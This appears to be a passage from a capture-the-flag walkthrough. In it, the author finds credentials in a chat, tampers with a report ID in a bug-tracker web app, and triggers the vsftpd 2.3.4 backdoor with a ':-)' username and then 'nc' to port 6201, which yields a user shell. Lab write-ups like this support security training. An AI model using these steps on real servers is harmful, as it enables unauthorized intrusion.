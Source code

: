 ```

![Alt text](assets/img/Screenshot%202024-06-26%20083715.png)

// After reading the chat i found creds of bug tracketr app

![Alt text](assets/img/Screenshot%202024-06-26%20083748.png)

// hmm Bug Tracking App now i go to port ```8090``` and found bugtracker app

### PORT 8090:

// login into creds from that message

![Alt text](assets/img/Screenshot%202024-06-26%20084305.png)

// home page. Again I started exploring the web app.

![Alt text](assets/img/Screenshot%202024-06-26%20084341.png)

//I got into bug secetion in ```all reports```. There was a login bruteforcing bug. And click on ```view``` button

![Alt text](assets/img/Screenshot%202024-06-26%20084833.png)

![Alt text](assets/img/Screenshot%202024-06-26%20084846.png)

// hmm. Again I see a number and try to change it to 0.

![Alt text](assets/img/Screenshot%202024-06-26%20085112.png)

// I read carefully . Found there is backdoor in vsftpd server to activate the backdoor send ```:-)``` with username and a port will open on ```6201```.

# Foothold

// first i connect to ftp with wrong username added with :-) example: kdghgd:-) after that provide wrong password. 

```ftp 192.168.22.134```

```
Connected to 192.168.22.134.
220 (vsFTPd 2.3.4)
Name (192.168.22.134:root): uayfsc:-)
331 Please specify the password.
Password:

```
// then run this command to connect 

```nc 192.168.22.134 6201```

```
id
uid=1000(baroi) gid=1000(baroi) groups=1000(baroi)
